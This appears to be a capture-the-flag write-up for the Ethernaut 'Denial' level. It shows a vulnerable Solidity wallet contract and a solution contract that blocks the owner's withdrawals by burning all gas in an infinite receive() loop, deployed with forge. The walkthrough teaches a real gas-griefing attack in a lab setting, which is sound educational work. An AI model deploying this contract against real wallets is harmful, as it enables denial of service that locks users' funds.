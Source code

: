 ## Denial Level Outline

**Difficulty : 5/10**

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

## Solution

This level has a very similar solution to level 9_King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    Denial denial;

    constructor(address _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            // lets burn some gas
        }
    }

}

interface Denial {
    function setWithdrawPartner(address) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

### Important Lesson From This Level
This level demonstrates that external calls to unknown contracts can still create **denial of service attack vectors** if a fixed amount of gas is not specified.

### [:arrow_left: Back To Main Menu](../)
